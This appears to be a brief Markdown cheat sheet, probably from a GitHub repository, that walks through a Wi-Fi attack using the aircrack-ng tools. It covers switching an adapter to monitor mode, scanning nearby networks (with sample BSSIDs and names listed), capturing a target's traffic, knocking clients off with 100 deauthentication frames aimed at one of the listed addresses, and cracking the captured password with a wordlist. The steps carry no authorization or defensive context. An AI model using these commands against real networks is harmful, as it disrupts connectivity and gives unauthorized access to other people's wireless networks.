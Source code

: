 ### enable monitor mode
```
sudo ifconfig wlan0 down
sudo airmon-ng start wlan0
```



### airodump-ng scanning
```
sudo airodump-ng wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### saved traffic packets
```
sudo airodump-ng --bssid 00:00:00:00:00:00 -w 파일 이름 wlan0mon
```


### execute aireplay-ng
```
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```


### crack password
```
sudo aircrack-ng filename.cap -w dict.lst
```
